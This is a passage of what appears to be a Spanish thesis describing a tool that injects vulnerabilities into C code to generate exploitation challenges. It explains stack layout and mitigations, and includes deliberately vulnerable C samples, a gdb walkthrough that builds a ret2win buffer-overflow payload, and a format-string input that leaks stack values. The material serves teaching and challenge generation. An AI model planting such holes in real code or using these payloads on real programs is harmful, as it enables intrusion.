En esta sección se describe técnicamente parte por parte cómo se ha planificado el proyecto. El trabajo está dividido en tres secciones: análisis del código C, inyección de vulnerabilidades y soluciones a los retos.

En la primera sección, se explican las herramientas utilizadas para analizar los códigos fuentes de entrada y como se manejan los mismos.

La segunda sección, explica los diferentes tipos de vulnerabilidades que se pueden inyectar y como se modifica el código fuente original para poder incluir estos nuevos flujos y funciones vulnerables.

En la tercera y última sección, se explican los diferentes mecanismos de resolución del problema y cómo son entregados al usuario.
\section{Análisis del código fuente}
El proyecto está desarrollado en `Python', un lenguaje de programación sencillo que permite de forma rápida crear prototipos. En esta sección se describen las librerías, lógica y flujos que utiliza el programa.

\subsection{Preparación del entorno}
El desarrollo se ha realizado en un sistema operativo del tipo Linux, en concreto sobre la distribución de `Fedora', el software de este proyecto es compatible con cualquier sistema operativo de la familia Linux, que opere sobre arquitecturas del tipo \acrfull{x86} o \acrfull{x64}.

Más adelante se explican las diferencias que tienen en la traducción al código máquina. Este programa va a trabajar mayoritariamente con la arquitectura \acrshort{x86}.

Las dependencias del sistema necesarias para trabajar con el proyecto son las siguientes:
\begin{itemize}
    \item Sistema operativo
    \begin{itemize}
        \item \acrshort{gcc}
        \item glibc-devel.i686 (Paquete para compilar binarios de 32bit)
        \item glibc-devel.x86\_64
        \item python3.12
        \item poetry \cite{poetry-install}
        \item gdb
        \item gdb-server
        \item make
        \item objdump
    \end{itemize}
    \item Librerías de Python para el proyecto
    \begin{itemize}
        \item pycparser \cite{pycparser}
        \item pwntools \cite{pwntools}
        \item structlog \cite{structlog}
    \end{itemize}
\end{itemize}

Las librerías de Python, se pueden instalar de forma automática mediante el gestor de paquetes `Poetry', para ello dentro del repositorio del proyecto, nos colocaremos en la carpeta `src' y podemos ejecutar dos comandos diferentes para conseguir el mismo objetivo, cualquiera de los dos instalará las dependencias necesarias a nivel de Python.

\begin{lstlisting}[language=bash, caption=Instalacion de dependencias Python]
# Usando el fichero Makefile
$ make init

# Comando manual de Poetry
$ poetry install
\end{lstlisting}

\subsection{Explicación del sistema AST}
El proyecto, hace uso de los \acrfull{ast} \cite{ast}. Un \acrshort{ast}, es una estructura de datos en forma de árbol que representa la estructura sintáctica abstracta de un texto escrito en un lenguaje formal, como código fuente. Cada nodo del árbol representa una construcción que ocurre en el texto. Los \acrshort{ast} son usados ampliamente en compiladores porque representan la estructura del código de un programa. La sintaxis abstracta se caracteriza por no incluir todos los detalles que se encuentran en la sintaxis concreta. Por ejemplo, la estructura de árbol subyacente implica el agrupamiento de los paréntesis, y una construcción sintáctica como IF condición THEN puede representarse con un único nodo que tenga dos ramas.

Esto es un ejemplo donde conviete el siguiente código Python sobre el algoritmo euclidiano a un \acrshort{ast}, mostrado en la figura \ref{fig:ast}:

\begin{lstlisting}[language=Python, caption=Python - Algoritmo euclidiano]
def euclidean(a: int, b: int) -> int:
    while b != 0:
      if a > b:
        a -= b
      else:
        b -= a
    return a
\end{lstlisting}

\begin{figure}[htb!]
      \centering                        
      
\includegraphics[width=0.8\textwidth]{images/AST.png}
      \caption{Algoritmo euclídeo en formato \acrshort{ast} }
      \label{fig:ast}
\end{figure}
\FloatBarrier
Como se puede observar en la figura \ref{fig:ast} este formato de árbol - rama no es sencillo de interpretar para un humano, sin embargo, de forma programática se puede analizar y/o alterar la estructura de forma relativamente sencilla.

El funcionamiento de la librería es complejo, por debajo emplea el metodo Lex (Lexer) - \acrfull{yacc}. Está implementado usando la librería `PLY' \cite{ply}, la cual es una herramienta que tokeniza el código y mediante funciones que analizan estos tokens permite construir un \acrshort{ast}, que es lo que realiza la herramienta `pycparser'.

\subsection{Análisis del código C con Python}
El software desarrollado implementa dos clases principales. La primera clase se encarga de procesar el código C, convertirlo en un \acrshort{ast} utilizando la librería `pycparser', y modificar este árbol para introducir cambios estructurales, como por ejemplo, las vulnerabilidades, esta clase se llama `AstProcessor'. La segunda clase se especializa en analizar el \acrshort{ast} generado, buscando puntos críticos donde se puedan inyectar vulnerabilidades de manera deliberada, tiene el nombre de `VulnGen'.

\subsubsection{AstProcessor} \label{subsub:astproc}
Esta clase de Python únicamente hace uso de la librería `pycparser'. En ella se han implementado todas las funcionalidades importantes que permiten analizar, modificar, guardar y compilar el código.

El flujo para el procesado del código fuente comienza mediante el cargado del fichero en la librería. Para traducir el archivo a un \acrshort{ast}, el paquete hace uso de unas cabeceras modificadas de la \acrfull{libc} y del compilador \acrfull{gcc}. Para ello, las flags que se han añadido en el compilador son las siguientes:
\begin{itemize}
    \item -E : Afecta al enlazamiento de librerías
    \item -nostdinc : No incluir las librerías por defecto del sistema, por ejemplo, `string.h'
    \item -Iutils/fake\_libc\_include : Incluir las cabeceras falsas de libc para que el compilador no arroje errores
\end{itemize}

Una vez procesado el código al formato \acrshort{ast}, se hace un preprocesado de las secciones de interés para facilitar posteriores modificaciones y búsquedas de objetos. La clase dispone de 8 objetos principales diferentes:
\begin{itemize}
    \item ast: aquí se almacena todo el procesado obtenido por `pycparser'.
    \item astjson: lo mismo que en el objeto `ast', sin embargo, está en formato diccionario
    \item typedefs:  son definiciones de variables y tamaños sobre el nucleo de C.
    \item code: la subestructura del \acrshort{ast} con el código fuente importante, sin definiciones de tipos.
    \item funcs: diccionario con las definiciones de funciones
    \item globals: diccionario con variables globales o declaradas fuera de la función `main'
    \item vars: diccionario con todas las variables divididas en globales y funciones
    \item fncalls: diccionario con todas las llamadas a funciones divididas por función origen
\end{itemize}

Aprovechando el funcionamiento de las clases en Python, una modificación en cualquiera de los objetos enlazados entre variables repercutirá directamente sobre el objeto original debido a que el lenguaje referencia el valor original en vez de generar una nueva copia.

Para trabajar con el \acrshort{ast}, es muy importante entender el funcionamiento de los `scope' cuando se usa una variable en el código. El compilador primero intenta ubicar la variable en la función donde se está ejecutando, y en caso de no encontrar la variable, probará a buscarla de nuevo en el entorno global, siendo estrictos con la definición, un scope se define como código aislado entre dos llaves `\{\}'. Esto se puede comprobar con el siguiente código:
\pagebreak
\begin{lstlisting}[language=C, caption=Scopes en C]
int a = 1;
void b(){
    int a = 2;
    {
        int a = 3;
        printf("Subscope en la funcion b: %d\n", a);
    }
    printf("En la funcion b: %d\n", a);
}
int main()
{
    printf("En la funcion main: %d\n", a);
    b();
    return 0;
}
\end{lstlisting}

En el resultado se puede ver que arroja un texto con valor numérico diferente según el scope donde fue ejecutada la instrucción de imprimir por pantalla.

\subsubsection{\acrshort{sast}} \label{subsub:sast}
\acrshort{sast} es la clase encargada de localizar posibles funciones peligrosas.
Se hace uso de los \acrshort{ast} y se analiza de forma recursiva el árbol tratando de simular un procesado del `stack'. El concepto de `stack' se explica en el apartado \ref{subsub:bofstack}.

A día de la entrega del proyecto, la funcionalidad es reducida debido a que no es capaz de localizar vulnerabilidades. Cuando se procesan los diferentes tipos de asignaciones y llamadas, se revisa cuales de estas pueden ser peligrosas basado en una lista de llamadas a funciones que tratan con buffers o entrada del usuario.
Cuando se detecta una llamada peligrosa, por ejemplo, un `scanf', se genera un `problema' con todos los datos relevantes sobre la llamada: scope, stack (representa bajo qué condición se llama la función) y el \acrshort{ast} de la llamada.

Según las condiciones en las cuales se ha ejecutado la función vulnerable, se da un veredicto sobre si es un punto de inyección de vulnerabilidades, por ejemplo:

\begin{lstlisting}[language=C, caption=Funciones peligrosas]
int a = 1;
char buffer[128];
// Este codigo es una funcion vulnereable
scanf("%s %d", buffer, &a);

// Este codigo es una funcion no vulnerable
scanf("%d %d", buffer, &a);
\end{lstlisting}

\subsubsection{VulnGen}
Esta clase de Python es la encargada de realizar un análisis del \acrshort{ast} e inyectar las vulnerabilidades propuestas en la sección \ref{subsec:vulns}. Es la clase más compleja del software debido a que tiene que ser capaz de encontrar funciones que permitan sustituirlas por sus análogas vulnerables, asegurando que la explotación sucede en el punto esperado.

La clase se construye sobre otras dos clases importantes: AstProcessor explicada en el punto \ref{subsub:astproc} y la clase SAST mostrada anteriormente \ref{subsub:sast}, encargada de revisar el código y localizar posibles funciones peligrosas.

El flujo de trabajo es el siguiente:

\begin{enumerate}
    \item Se inicializa la clase VulnGen
    \begin{enumerate}
        \item Se inicializa la clase \acrshort{sast}
        \item Se procesa todo el código \acrshort{ast}
    \end{enumerate}
    \item Se analizan los problemas recogidos en \acrshort{sast}
    \begin{enumerate}
        \item Se revisa si es intercambiable de forma directa, afecta a funciones con inputs del tipo `scanf' por ejemplo
        \item En caso de no ser intercambiable, se analiza que argumento pudiera ser vulnerable y se divide la función en componentes
        \item El problema original se aisla con el componente vulnerable
    \end{enumerate}
    \item Se crea la vulnerabilidad relacionada con un nivel de dificultad
    \item Se cambia el tamaño del buffer vulnerable de forma aleatoria
    \item Se fija el buffer donde se devuelven los datos al mismo tamaño que el original
    \item Se intercambia la función original por la vulnerable, asegurando la misma funcionalidad
\end{enumerate}

Este flujo se representa gráficamente a continuación:


\begin{tikzpicture}[node distance=2cm]
        \node (start) [startstop] {VulnGen};
        \node (sast) [process, right of=start, xshift=1.5cm] {Iniciar \acrshort{sast}};
        \node (stack) [process, right of=sast, xshift=1.5cm] {Crear stack};
        \node (problemas) [process, right of=stack, xshift=2cm] {Procesar problemas};
        \node (intercambiable) [decision, below of=problemas, yshift=-1cm] {¿Intercambiable?};
        \node (fmtstr) [process, left of=intercambiable, xshift=-2.5cm] {Dividir función};
        \node (aislar) [process, left of=fmtstr, xshift=-2cm] {Aislar problema};
        \node (genvuln) [process, below of=aislar, yshift=-0.5cm] {Generar vulnerabilidad};
        \node (bufvuln) [process, below of=genvuln] {Aleatorizar buffer vulnerable};
        \node (buforig) [process, below of=bufvuln, xshift=-1.25cm] {Fijar buffer original en fn vulnerable};
        \node (intercambiofn) [process, right of=buforig, xshift=4.5cm] {Intercambio de funciones};
        \node (fin) [startstop, right of=intercambiofn, xshift=2.5cm] {Fin};
        \draw [arrow] (start) -- (sast);
        \draw [arrow] (sast) -- (stack);
        \draw [arrow] (stack) -- (problemas);
        \draw [arrow] (problemas) -- (intercambiable);
        \draw [arrow] (intercambiable) -- node[anchor=south] {no} (fmtstr);
        \draw [arrow] (intercambiable) |- node[anchor=west] {si} (genvuln);
        \draw [arrow] (fmtstr) -- (aislar);
        \draw [arrow] (aislar) -- (genvuln);
        \draw [arrow] (genvuln) -- (bufvuln);
        \draw [arrow] (bufvuln) -- (buforig);
        \draw [arrow] (buforig) -- (intercambiofn);
        \draw [arrow] (intercambiofn) -- (fin);
\end{tikzpicture}

A modo de ejemplo, el proceso puede resumirse en una entrada y una salida, tal y como se muestra en el siguiente bloque de código.
\pagebreak
\begin{lstlisting}[language=C, caption=Entrada y salida de VulnGen]
// Codigo de entrada
void main(){
 char buffer[32];
 int buffer2;
 printf("dame tu nombre y tu edad separado por espacios: ");
 scanf("%s %d",buffer,&buffer2);
 printf("Tu nombre es %s y tu edad es %d\n", buffer, buffer2);
}

// Codigo de salida
void input_66(char *buf){
  char filler[837];
  char buffer[32];
  scanf("%s", buffer);
  strcpy(buf, buffer);
}

void main(){
  char buffer[32];
  int buffer2;
  printf("dame tu nombre y tu edad separado por espacios: ");
  input_66(buffer);
  scanf(" %d", &buffer2);
  printf("Tu nombre es %s y tu edad es %d\n", buffer, buffer2);
}
\end{lstlisting}

Como se puede observar en el ejemplo, la función vulnerable `scanf' se ha dividido en dos llamadas.
La llamada para introducir el nombre en el buffer se intercambia por una función con el formato `input\_XXX' que toma como argumento el buffer destino.
Además se añade una segunda llamada a la función `scanf' únicamente para procesar el entero manteniendo el comportamiento original.

\section{Vulnerabilidades}
Esta sección se centra en explicar qué es un \acrfull{bof}, cómo ocurre, y por qué es tan peligroso.
Además, se explorán las diferentes técnicas de explotación y las mitigaciones introducidas en el paso del tiempo para reducir el riesgo de ataques críticos.
Comprender los fundamentos y las implicaciones de los desbordamientos de buffer es esencial dado que sigue siendo una amenaza vigente en muchos sistemas actuales.
\subsection{Buffer Overflow}
Un \acrfull{bof} o desbordamiento de buffer sucede cuando el tamaño del buffer donde se almacenan los datos es menor a la cantidad insertada.
En la siguiente figura se puede ver en un ejemplo gráfico.
\begin{figure}[htb!]
    \centering                        
    
\includegraphics[width=0.8\textwidth]{images/BOF-Example.jpg}
    \caption{Ejemplo de un \acrlong{bof} }
    \label{fig:bofexample}
\end{figure}
\FloatBarrier
En el caso arriba descrito la variable que contiene el texto tiene un tamaño de 8 bytes, sin embargo, se han introducido 10 suponiendo un overflow de 2 bytes.

\subsubsection{Arquitectura de memoria Intel de 32bits}
Para la redacción de este apartado ha sido muy relevante la información contenida en el libro `Assembly Language for x86 Processors' \cite{x86asm} debido a que se explica de forma detallada el funcionamiento interno de los ejecutables en lenguaje máquina.

La arquitectura del tipo x86 se basa en una construcción del tipo `stack'. Un stack en el ámbito informático representa una estructura de datos que sigue el principio `\acrfull{lifo}', es decir, el último dato en entrar al stack es el primero en salir. Una operación del tipo `push' añadirá un dato al final del stack y la operación del tipo `pop' lo retirará.

La memoria del programa se divide en segmentos dependiendo de los datos a contener, en la siguiente lista se muestra en orden la estructura de memoria del programa:
\begin{itemize}
    \item Stack: Contiene la pila de llamadas y algunas variables. Crece en dirección del heap.
    \item Heap: Memoría reservada de forma dinámica. Crece en dirección del stack.
    \item \acrfull{bss}: Variables estáticas no inicializadas.
    \item Datos (Data): Contiene variables estáticas inicializadas, tanto locales como globales.
    \item Código (Text): Se almacenan las instrucciones a ejecutar, solo lectura-ejecución.
\end{itemize}

Para entender correctamente la convención de llamadas en esta arquitectura es importante conocer los diferentes registros y su contenido que se muestran a continuación:
\begin{itemize}
    \item \acrfull{eax}: Registro usado en operaciones aritméticas.
    \item \acrfull{ebx}: Apunta a la base del segmento de datos.
    \item \acrfull{ecx}: Contador usado normalmente en bucles.
    \item \acrfull{edx}: Puntero a operaciones de \acrshort{io}, también usado en operaciones aritméticas.
    \item \acrfull{esi}: Puntero a datos en el segmento `data', usado con strings o I/O.
    \item \acrfull{edi}: Puntero a datos o destino en el segmento `data', usado con strings o \acrshort{io}.
    \item \acrfull{esp}: Apunta a la parte superior del stack.
    \item \acrfull{ebp}: Apunta a la base del stack.
    \item \acrfull{eip}: Apunta a la siguiente instrucción a ejecutar.
\end{itemize}

La sección del stack está dividida en ventanas con los contextos de ejecución de cada función. Es decir, cada vez que se llame a una función se crea un nuevo `stack frame' con la estructura que se muestra en las siguientes figuras.

\begin{figure}[htb!]
    \centering                        
    
\includegraphics[width=0.8\textwidth]{images/stack-funcs.png}
    \caption{Ejemplo de crecimiento del stack}
    \label{fig:stack-funcs}
\end{figure}
\FloatBarrier
\begin{figure}[htb!]
    \centering                        
    
\includegraphics[width=0.8\textwidth]{images/stack-arch.jpg}
    \caption{Ejemplo a bajo nivel del contenido del stack }
    \label{fig:stack-arch}
\end{figure}
\FloatBarrier
\subsubsection{Explotando un buffer overflow en 32bits}
Con lo explicado en el punto anterior se puede observar que si se modifica el valor del \acrshort{eip}, el programa verá alterado su flujo normal de trabajo. En este caso, en ese registro se puede establecer una dirección de memoria maligna que permita ejecutar código arbitrario.

En el siguiente código C de ejemplo se puede observar que tenemos declarada una función peligrosa llamada `ret2win'. Esta no se ejecuta en ningún momento en el código, sin embargo, existe y puede ser ejecutada alterando el flujo normal del programa.

\begin{lstlisting}[language=C, caption=Código vulnerable con función ret2win, label=snippet:simplebof]

void ret2win(){
    system("/bin/sh");
}

void funcion_vulnerable(){
    char buffer[16];
    printf("Dime algo: ");
    gets(buffer);
    printf("\nHas escrito: %s", buffer);
}

void main(){
    printf("Esto es un programa de prueba\n");
    funcion_vulnerable();
    printf("Adios!");
}
\end{lstlisting}
\FloatBarrier
En este caso, la función `gets' permite escribir por encima del tamaño del buffer y alterar el stack pudiendo cambiar el valor del \acrshort{eip} guardado.

Es probable que compilando el código tal y como está, el compilador nos arroje varias alertas sobre el fallo. Además los compiladores en la actualidad implementan mitigaciones por defecto para evitar situaciones no deseadas.
Estas mitigaciones se explican en el punto \ref{subsec:mitigaciones}.
Para probar la explotación antes descrita se necesita compilar el binario con el siguiente comando:
\begin{lstlisting}[language=bash, caption=Compilado de código con pocas mitigaciones y arquitectura 32bit]
$ gcc -m32 -no-pie -fno-stack-protector -o ret2win.o ret2win.c
\end{lstlisting}
Una vez compilado, para probar la explotación del binario, lo ejecutaremos con el programa \acrfull{gdb}.
Para la explotación se puede usar el siguiente tutorial como referencia:
\begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Se carga el binario en gdb
$ gdb ret2win.o
# Se establece el breakpoint en la funcion main
(gdb) b main
Breakpoint 1 at 0x8049209
# Se establece el breakpoint en la funcion "funcion_vulnerable"
(gdb) b funcion_vulnerable
Breakpoint 2 at 0x80491c5
# Se establece el breakpoint en la funcion "ret2win"
(gdb) b ret2win
Breakpoint 3 at 0x80491ac
# Procedemos a ejecutar el programa y se alcanza la funcion main
(gdb) start
Breakpoint 1, 0x08049209 in main ()
# Podemos ver los stack frames usando backtrace
(gdb) backtrace
0  0x08049209 in main ()
# Continuamos hasta funcion_vulnerable
(gdb) continue
Breakpoint 2, 0x080491c5 in funcion_vulnerable ()
# Se revisan los stack frames para observar que se ha cambiado a uno nuevo
(gdb) backtrace
0  0x080491c5 in funcion_vulnerable ()
1  0x08049221 in main ()
# Se continua instruccion por instruccion hasta que se pida un input usando next
(gdb) next instruction
.
.
.
(gdb) next instruction
Dime algo: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Se introduce un texto largo (por encima de las dimensiones del buffer), 48 As por ejemplo
0x080491e1 in funcion_vulnerable ()
(gdb) backtrace
0  0x080491e1 in funcion_vulnerable ()
1  0x41414141 in ?? ()
2  0x41414141 in ?? ()
3  0x41414141 in ?? ()
4  0x41414141 in ?? ()
5  0x41414141 in ?? ()
6  0x00000000 in ?? ()
# Como se puede observar, se ha sustituido el EIP cambiando el punto de retorno de la funcion.
# Para obtener el exacto con precision, se puede hacer uso de herramientas automaticas, existe una online en la siguiente URL: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
# Se genera un string de 48 bytes de longitud usando la herramienta (Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5)
# Se reinicia el programa usando run y aceptando
(gdb) run
# Se repiten los pasos anteriores, sin embargo, se cambian las As introducidas por el texto generado en la herramienta
(gdb) next instruction
Dime algo: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
# Revisamos el backtrace para ver el EIP
(gdb) backtrace
0  0x080491e1 in funcion_vulnerable ()
1  0x62413961 in ?? ()
2  0x31624130 in ?? ()
3  0x41326241 in ?? ()
4  0x62413362 in ?? ()
5  0x35624134 in ?? ()
6  0x00000000 in ?? ()
# Se toma la funcion de retorno del punto 1 (0x62413961) y se introduce en la herramienta usada, obteniendo un offset de 28 bytes
# Como conclusion, se debe entregar al programa 28 caracteres seguido de la funcion donde se quiera que retorne (ret2win)
# Para ello se usa info address ret2win  y devuelve 0x80491a6
# Para que el programa entienda esa direccion de memoria, se necesita pasarlo en formato bytes
# Ademas dependiendo del endianness (Forma en la que lee las variables el binario), se necesita cambiar el orden
# En este caso (y en la gran mayoria) se usa little endian, se puede revisar usando show endian, por lo cual el valor que se debe pasar al programa es (0xa6910408)
# Se puede crear el payload usando bash con el siguiente comando: echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
# Por ultimo, se carga como entrada al binario
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
(gdb) run < payload.txt
# Continuamos
(gdb) c
(gdb) c
Continuing.
Dime algo: 

Breakpoint 3, 0x080491ac in ret2win ()
# Stack Buffer overflow conseguido, se ha ejecutado la funcion ret2win
\end{lstlisting}

Con esta prueba de concepto, se puede entender el peligro de un \acrshort{bof}.
Aunque en esta demostración se tuviera una función `ret2win' que permite ejecutar una consola, hay otras técnicas que permiten llegar al mismo punto mediante librerías comunes como \acrshort{libc}.

\subsubsection{Diferencias entre 32bits y 64bits}
En la actualidad, las arquitecturas están basadas en sistemas 64bits.
Estas arquitecturas comparten gran parte de la convención de llamadas de 32bit, sin embargo, la forma en la que se comparten los parametros entre funciones se realiza de una forma diferente.
En las arquitecturas 32bit los parametros se comparten mediante el stack como se ha referenciado en la figura \ref{fig:stack-arch}.
En el caso de 64bit, los parametros se comparten mediante registros específicos. Además, el analogo al \acrshort{eip} que es el RIP en 64bits soporta direcciones de memoria menores a 0x00007FFFFFFFFFFF, es decir, 48bits.
Dependiendo del sistema operativo se usan unos registros u otros para compartir los parámetros.

Toda la información relacionada con la convención de llamadas de 64bit sobre linux se puede encontrar en el borrador publicado por la Linux Foundation \cite{x64asm}.

\subsection{Vulnerabilidad tipo Format String} \label{subsec:fmtstr}
El bug de tipo format string fue descubierto a principios de los 2000.
Al principio se consideró un bug, sin embargo, con el paso del tiempo se reconocieron los peligros que conllevaba este tipo de bug y pasó a considerarse una vulnerabilidad.

La vulnerabilidad consiste en aprovecharse de funciones que imprimen texto con formato, es decir, funciones como `printf, sprintf' o similares.
Estas funciones normalmente requieren de un parametro con una cadena de formato (llamado format string) y los demás argumentos que serán reemplazados en el format string.
Por ejemplo, una cadena de format string con el valor `Me llamo \%s' con un argumento de tipo `char \*buffer = pepe' devolvería el texto completo `Me llamo pepe'.
Sin embargo, si la cantidad de argumentos es menor a las sustituciones necesarias en la cadena de formato, las variables que se tomarán provendrán del stack.
Además, las cadenas de formato contienen un parametro que permite escribir contenido al stack, con la cadena de formato `\%n' permite escribir 4 bytes a un puntero con el valor de la cuenta de los caracteres anteriores, es decir, si escribimos `ABCD\%n' el valor que almacenará en el puntero será 4.

Si por algún motivo se tuviera una función vulnerable de este tipo dentro de un bucle, la probabilidad de que se convierta en una ejecución de código maligno es muy alta.

En el siguiente fragmento de código se puede ver el resultado de una explotación satisfactoria de esta vulnerabilidad:
\pagebreak
\begin{lstlisting}[language=C, caption=Vulnerabilidad de tipo Format String]
#include <stdio.h>
#include <unistd.h>

int main() {
    int primer_secreto = 0xd3adb33f;
    int segundo_secreto = 0x8badf00d;
    char name[64] = {0};
    fgets(name, sizeof(name), stdin);
    printf("Hola ");
    printf(name);
    printf("! Nunca sabras mis secretos!\n");
}
\end{lstlisting}

Si en el ejemplo anterior se introduce por pantalla el valor `\%7\$llx' el programa devolverá ambos secretos.

\subsection{Mitigaciones introducidas en el compilado} \label{subsec:mitigaciones}
Para evitar situaciones similares a las vistas anteriormente, con el paso del tiempo los compiladores han ido implementando mecanismos de seguridad que evitan que un simple \acrshort{bof} acabe en ejecución de código.
Estas mitigaciones estan descritas en los siguientes puntos y se basan en evitar la corrupción de memoria.

En la siguiente figura se puede ver de forma gráfica las mitigaciones introducidas a lo largo de los años. No todas están activadas por defecto en el compilador.

\begin{figure}[htb!]
    \centering                        
